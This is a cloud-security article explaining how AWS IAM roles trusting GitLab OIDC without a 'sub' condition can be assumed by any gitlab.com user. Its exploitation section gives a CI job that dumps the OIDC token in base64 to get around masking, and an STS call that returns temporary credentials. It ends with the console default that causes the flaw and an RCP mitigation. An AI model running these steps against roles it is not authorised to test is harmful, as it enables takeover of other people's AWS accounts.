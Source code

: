 ```yaml
---
author_name: Nick Frichette
title: "Exploiting Misconfigured GitLab OIDC AWS IAM Roles"
description: Discover how to identify and exploit misconfigured AWS IAM roles using GitLab OIDC, with a detailed, step-by-step guide.
---
```


[OpenID Connect](https://openid.net/developers/how-connect-works/) (OIDC) is a common technology used to authorize services outside of AWS to assume IAM roles. As has been shown many times in the past (examples: [one](https://securitylabs.datadoghq.com/articles/exploring-github-to-aws-keyless-authentication-flaws/), [two](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/), and [three](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess)), these roles can be misconfigured, permitting anyone in the world the ability to assume a vulnerable role.

In this article, we will explain a potential misconfiguration of AWS IAM roles when using GitLab OIDC, walk through how to exploit them step-by-step, and explain how the AWS Console causes this misconfiguration by default.

!!! warning
    In this article, we are only covering misconfigured roles with a trust relationship to the [gitlab.com](https://gitlab.com/) SaaS offering. In theory this attack could be performed on a self-hosted version of GitLab as well, however we have not tried it. If you have, feel free to open a [pull request](https://github.com/Hacking-the-Cloud/hackingthe.cloud/pulls) and update this article as needed.

## IAM role misconfiguration using GitLab OIDC

According to the GitLab [documentation](https://docs.gitlab.com/ee/ci/cloud_services/aws/), AWS IAM roles that are using OIDC to authenticate should have a trust policy that looks like the following:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "gitlab.com:sub": "project_path:mygroup/myproject:ref_type:branch:ref:main"
        }
      }
    }
  ]
}
```

There are several important elements of this trust policy including:

* `Principal.Federated`: This is the identity provider that authorizes the role assumption. It is important to note that while each AWS account will have its own identity provider, this is simply a [stand-in](https://docs.gitlab.com/ee/ci/cloud_services/aws/#add-the-identity-provider) for the global `gitlab.com` provider. 
* `Action`: This is the specific type of assume role being used. In this case it is [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html).
* `gitlab.com:sub`: This is an optional condition which restricts the group, project, or branch which is permitted to assume the role.

The word "optional" from the previous sentence is why this attack is possible. There is no requirement to include a condition which restricts which specific group or project is permitted to assume a role. As a result of this __anyone with access to gitlab.com could assume a role with this misconfiguration__.

## How to exploit this misconfiguration

In this situation we will assume a role that has the following trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Principal": {
                "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
            },
            "Condition": {
                "StringEquals": {
                    "gitlab.com:aud": [
                        "https://gitlab.com"
                    ]
                }
            }
        }
    ]
}
```

!!! Note
    In this example there is no condition on the `sub` field, restricting who is permitted to assume the role. This is the default trust policy that is set when creating a role through the AWS Console. More on this [later](#how-the-aws-console-causes-this-misconfiguration-by-default). 

To exploit this misconfigured role, we must generate a JWT that can be used to authorize the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) invocation. To do this, create an account on gitlab.com or use an existing one.

Next, create a project, and in this newly created project, create a file called `.gitlab-ci.yml`. This is the configuration file for GitLab CI. Add the following content to the `.gitlab-ci.yml` file:

```yml
assume role:
  id_tokens:
    GITLAB_OIDC_TOKEN:
      aud: https://gitlab.com
  script:
    - echo ${GITLAB_OIDC_TOKEN} | base64 -w 0
```

!!! warning
    The `base64 -w 0` is required because GitLab will mask the output if you simply echo the `GITLAB_OIDC_TOKEN`. 

After adding this content to the `.gitlab-ci.yml` file, navigate to "Build > Jobs" on the left side, and click on the most recent CI job. Here you should see the OIDC token that we base64 encoded.

![gitlab.com CI Job view](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/gitlab.com.example.png)

From here, decode the base64 encoded blob (`base64 -d`) to get the original `GITLAB_OIDC_TOKEN`. This is the JWT you will use in the following [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) call.

!!! Note
    You can optionally decode this value to see that the issuer is `https://gitlab.com`. This is what is being validated in the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) and because there is no condition on the `sub` field, we are able to assume the misconfigured role.

```bash
nick.frichette@host ~ % aws sts assume-role-with-web-identity \
--role-arn <ARN of misconfigured role>
--role-session-name <session name of your choosing>
--web-identity-token  <JWT from previous step>
{
    "Credentials": {
        "AccessKeyId": "ASIAEXAMPLE123EXAMPL",
        "SecretAccessKey": "EXAMPLE123EXAMPLE123EXAMPLE123EXAMPLE123"
        "SessionToken": "[..snip..]",
        "Expiration": "2024-09-01T23:20:01+00:00"
    },
    "SubjectFromWebIdentityToken": "project_path:secres/runner-test:ref_type:branch:ref:main",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAEXAMPLE123EXAMPL:blah",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vuln-gitlab-runner-role/blah"
    },
    "Provider": "arn:aws:iam::111111111111:oidc-provider/gitlab.com",
    "Audience": "https://gitlab.com"
}
```

You have successfully used a JWT generated from gitlab.com to assume a misconfigured IAM role!

## How the AWS console causes this misconfiguration by default

If you've been following along, you may wonder, "Why would anyone make this misconfiguration? The GitLab documentation provides an example that is secure". Misconfigurations occur for a wide variety of reasons and in a wide variety of scenarios, however this one may have a more clear cut reason. 

When creating IAM roles in the AWS console, developers can choose a `trusted entity` for `Web identity`. This will pre-populate the trust policy of the IAM role and generally makes things easier. However, when a developer chooses `Web identity` and selects `gitlab.com` as the identity provider, there is no requirement for a condition on the `sub` field. __Using the AWS console to create the IAM role will generate a vulnerable role by defualt__.

![AWS Console 1](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_1.png)

![AWS Console 2](../../../images/aws/exploitation/exploiting_misconfigured_gitlab_oidc_aws_iam_roles/vuln_aws_2.png)

Compare this behavior to [GitHub Actions](https://www.wiz.io/blog/a-security-community-success-story-of-mitigating-a-misconfiguration) or [Terraform Cloud](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess). In both of these situations, AWS made changes to the AWS Console to require additional fields to mitigate this type of attack.

## How to block this attacking using RCPs
Recently, the Resource Control Policy (RCP) examples repository added [examples](https://github.com/aws-samples/resource-control-policy-examples/blob/main/Limit-access-to-trusted-OIDC-identity-providers/Limit-access-to-trusted-OIDC-identity-providers.md#specific-example-controls-for-tenancy-within-multi-tenant-oidc-providers-with-a-shared-issuer-url) on how to block this type of attack using RCPs. The example Resource Control Policy can block an external attacker from assuming your vulnerable role. 
